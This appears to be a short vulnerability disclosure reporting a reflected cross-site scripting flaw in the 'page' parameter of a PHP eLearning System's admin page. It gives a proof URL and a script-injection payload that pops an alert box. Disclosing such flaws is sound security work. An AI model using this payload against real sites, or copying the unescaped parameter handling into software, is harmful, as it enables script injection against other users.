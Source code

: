 # eLearning System – reflected XSS on (admin/?page=XX) 
# Vendor Homepage:
https://www.sourcecodester.com/php/14787/elearning-system-using-phpmysqli-source-code.html 
# Version:V1.0
Tested on: PHP, Apache, MySQL
# Affected Page:
admin/?page=XX 
On this page,page parameter is vulnerable to reflected XSS Attack 
# Proof of vulnerability:
Visit this page：http://localhost/elearning/admin/?page=student
# Payload：
？page=</script><script>alert(1)</script>
# Trigger popup：
<img width="416" alt="image" src="https://github.com/qqqyc/vuln/assets/53200267/c0cea40f-833b-4c1a-842f-0c7b992ea698">
